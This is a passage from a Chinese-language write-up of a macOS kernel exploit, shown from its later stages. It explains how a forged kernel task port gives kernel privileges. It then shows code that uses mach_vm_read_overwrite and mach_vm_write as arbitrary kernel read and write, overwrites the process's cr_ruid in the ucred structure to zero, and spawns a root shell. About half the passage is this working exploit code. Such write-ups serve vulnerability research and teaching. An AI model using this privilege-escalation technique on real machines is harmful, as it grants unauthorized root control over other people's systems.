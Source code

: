 这允许我们可以通过将内核的的 task 地址和端口特权地址复制到用户区域来间接地使用内核权限。也就是说，由于操作的端口指向 fake_port，并且 fake_port 具有内核端口权限，因此可以通过 task_get_special_port() 在任意端口上启用内核端口权限。

**<br>**

**（7）权限提升（user -&gt; root）**

现在，我们已经获得了内核权限，可以通过 mach_vm_read_overwrite() 和 mach_vm_write() 启用 AAR/AAW。如上一篇博客所述，更改 UCRED 结构的 CR_RUID 会改变进程的权限。proc 结构包含了 typedef struct ucred *kauth_cred_t; 定义的 kauth_cred_tp_ucred;。

ucred 结构如下，你可以修改 cr_ruid。



```
/*
 * In-kernel credential structure.
 *
 * Note that this structure should not be used outside the kernel, nor should
 * it or copies of it be exported outside.
 */
struct ucred `{`
    TAILQ_ENTRY(ucred)    cr_link; /* never modify this without KAUTH_CRED_HASH_LOCK */
    u_long    cr_ref;            /* reference count */
    
struct posix_cred `{`
    /*
     * The credential hash depends on everything from this point on
     * (see kauth_cred_get_hashkey)
     */
    uid_t    cr_uid;            /* effective user id */
    uid_t    cr_ruid;        /* real user id */
    uid_t    cr_svuid;        /* saved user id */
    short    cr_ngroups;        /* number of groups in advisory list */
    gid_t    cr_groups[NGROUPS];    /* advisory group list */
    gid_t    cr_rgid;        /* real group id */
    gid_t    cr_svgid;        /* saved group id */
    uid_t    cr_gmuid;        /* UID for group membership purposes */
    int    cr_flags;        /* flags on credential */
`}` cr_posix;
    struct label    *cr_label;    /* MAC label */
    /* 
     * NOTE: If anything else (besides the flags)
     * added after the label, you must change
     * kauth_cred_find().
     */
    struct au_session cr_audit;        /* user auditing data */
`}`;
```

写入数据以获取 root 权限的代码如下：



```
uint64_t cred;
mach_vm_size_t read_bytes = 8;
mach_vm_read_overwrite(kernel_port, (current_process + UCRED_GAP_IN_PROCESS), (size_t)8, (mach_vm_offset_t)(&amp;cred), &amp;read_bytes); // AAR in Kernel
vm_offset_t root_uid = 0;
mach_msg_type_number_t write_bytes = 8;
mach_vm_write(kernel_port, (cred + CR_RUID_GAP_IN_UCRED), &amp;root_uid, (mach_msg_type_number_t)write_bytes); // AAW in Kernel
system("/bin/bash"); // Get Shell
```
